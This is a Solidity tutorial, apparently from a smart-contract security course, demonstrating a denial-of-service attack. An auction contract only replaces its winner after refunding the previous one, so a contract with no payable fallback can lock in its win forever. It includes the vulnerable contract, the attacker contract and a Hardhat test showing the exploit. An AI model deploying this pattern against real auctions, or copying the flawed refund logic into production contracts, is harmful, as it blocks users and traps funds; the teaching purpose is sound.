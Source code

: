 # Denial of Service

This is a very common attack which we all know about in web2 as well but today we will try to immitate a Denial of Service attack on a smart contract

Lets goo 🚀


## What is DOS?

A DOS attack is an attack which is meant to make a system inaccessible to its intended users. This is usually done by flodding the network with traffic or sending some information which makes the system crash. 


## DOS Attack on a smart contract

### What will happen?

There will be two smart contracts - `Good.sol` and `Attack.sol`. `Good.sol` will be used to run a sample aution where it will have a function in which the current user can become the current winner of the auction by sending  `Good.sol` ETH which is of more value than the ETH which was sent by the previous winner. After the winner is replaced, the old winner is sent back the money which he initially sent to the contract.

`Attack.sol` will attack in such a manner that after becoming the current winner of the auction, it will not allow anyone else to replace it even if the address trying to win is willing to put in more ETH. Thus `Attack.sol` will bring `Game.sol` under a DOS attack because after it becomes the winner, it will deny the ability for any other address to becomes the winner.


### Build

Lets build an example where you can experience how the the attack happens.

- To setup a Hardhat project, Open up a terminal and execute these commands

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a hardhat project ready to go!

If you are not on mac, please do this extra step and install these libraries as well :)

```bash
npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
```

and press `enter` for all the questions.

Now  create a contract named `Attack.sol` within the `contracts` directory and write thee following lines of code

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";

contract Attack {
    Good good;

    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public payable {
        good.setCurrentAuctionPrice{value: msg.value}();
    }
}
```

After creating, `Attack.sol` in the same `contracts` directory create a new file `Good.sol`

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;

    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        (bool sent, ) = currentWinner.call{value: currentAuctionPrice}("");
        if(sent) {
            currentAuctionPrice = msg.value;
            currentWinner = msg.sender;
        }
    }
}
```


Now lets try immitating the attack using a sample test, create a new file under `test` folder named `attack.js` and add the following lines of code to it

```javascript
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("After being declared the winner, Attack.sol should not allow anyone else to become the winner", async function () {
    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.deploy();
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);

    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy(_goodContract.address);
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    // Now lets attack the good contract
    // Get two addresses
    const [_, addr1, addr2] = await ethers.getSigners();

    // Initially let addr1 become the current winner of the aution
    let tx = await _goodContract.connect(addr1).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("1"),
    });
    await tx.wait();

    // Start the attack and make Attack.sol the current winner of the auction
    tx = await _attackContract.attack({
      value: ethers.utils.parseEther("3.0"),
    });
    await tx.wait();

    // Now lets trying making addr2 the current winner of the auction
    tx = await _goodContract.connect(addr2).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("4"),
    });
    await tx.wait();

    // Now lets check if the current winner is still attack contract
    expect(await _goodContract.currentWinner()).to.equal(
      _attackContract.address
    );
  });
});
```

Notice how `Attack.sol` will lead `Good.sol` into a DOS attack. First addr1 will become the current winner by calling setCurrentAuctionPrice on `Good.sol` then `Attack.sol` will become the current winner by sending more ETH than addr1 using the attack function. Now when addr2 will try to become the new winner, it wont be able to do that because of this check(`if(sent)`) present in the `Good.sol` contract which verifies that the current winner should only be changed if the ETH is sent back to the previous current winner

Now because `Attack.sol` doesnt have a `fallback` function which is necessary to accept ETH payments, `sent` is always `false` and thus the current winner is never updated and `addr2` can never become the current winner


To run the test, in your terminal pointing to the root directory of this level execute the following command

```bash
npx hardhat test
```

When the tests pass, you will notice that the `Good.sol` is now under DOS attack because after `Attack.sol` becomes the current winner, on other address can becomes the current winner. 


Hope you liked this level ❤️, keep building.

WAGMI 🚀
